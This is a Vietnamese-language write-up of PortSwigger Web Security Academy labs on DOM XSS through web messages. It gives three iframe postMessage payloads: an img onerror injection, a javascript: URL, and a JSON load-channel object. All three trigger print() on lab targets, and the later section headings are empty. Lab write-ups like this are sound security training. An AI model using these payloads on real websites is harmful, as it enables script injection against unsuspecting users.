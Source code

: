 # 1. DOM XSS using web messages
Nhận thấy trong source code có đoạn mã sau:

![image](https://user-images.githubusercontent.com/103978452/211499636-60830aeb-fd4d-4bcd-bae7-fbaf3f1a149a.png)
Đoạn code trên sẽ nhận web message và inject vào tag có id là 'ads'. Như vậy ta có thể cấu hình XSS sử dụng thẻ `<iframe>`

Vào exploit server, cấu hình đoạn code sau:

```
<iframe style="width: 500px; height: 500px;" src="https://0a1e00080340c863c0b7a49200dd0016.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>', '*')"></iframe>
```

Sau khi đoạn code trên được chạy, sẽ tạo 1 tag iframe. Tag iframe này sau đó sẽ gửi message đến target website, với nội dung `<img src=1 onerror=print()>`. Sau khi được inject vào thẻ có id=ads, lệnh print() sẽ được gọi.

Click "Deliver to victim", kết quả thành công.

# 2. DOM XSS using web messages and a JavaScript URL
Nhận thấy trong source code có đoạn script sau:

![image](https://user-images.githubusercontent.com/103978452/211507542-82ddefb4-5d22-42c8-abc7-f3769e961b4e.png)
Đoạn script trên sẽ bắt sự kiện message được gửi đến, kiểm tra xem trong data(url) nếu có chuỗi 'http:' hoặc 'https:' trong message content thì sẽ thiết lập `location.href=url`

Vào exploit, cấu hình đoạn code sau:
```
<iframe src="https://0a6100cd040bb11ec08677ae0042000b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print(%22https:%22)', '*')"></iframe>
```

Đoạn code trên tạo một iframe, gửi message `javascript:print(%22https:%22)` tới target website. Như vậy khi target website bắt event 'message', lệnh `print('https')` sẽ được gọi

Sau khi click "Deliver to victim", bài lab được giải.

# 3. DOM XSS using web messages and JSON.parse
Trong source code có đoạn script sau:

![image](https://user-images.githubusercontent.com/103978452/211520513-92a0e9b0-3957-4279-be03-e3ee389d4364.png)
Nhận thấy dữ liệu hợp lệ cho "message" event là một JSON object. Nếu ta truyền một object có `type=load-channel` thì thuộc tính `url` của object đó sẽ được gắn cho một thẻ `iframe` mới.

Vào exploit server và cấu hình đoạn HTML sau:

```
<iframe src="https://0a7a00e903689c12c25c61e7002a00c8.web-security-academy.net/" onload="this.contentWindow.postMessage('{&quot;type&quot;:&quot;load-channel&quot;, &quot;url&quot;:&quot;javascript:print()&quot;}', '*')"></iframe>
```
Đoạn code trên sẽ gửi một message với content `{"type": "load-channel", "url": "javascript:print()"}`. Như vậy, khi thẻ `<iframe src="javascript:print()">` được tạo, lệnh print() sẽ được gọi.

Sau khi click "Deliver to victim", kết quả thành công.

# 4. DOM-based open redirection

# 5. DOM-based cookie manipulation

# 6. Exploiting DOM clobbering to enable XSS

# 7. Clobbering DOM attributes to bypass HTML filters

# 8. 
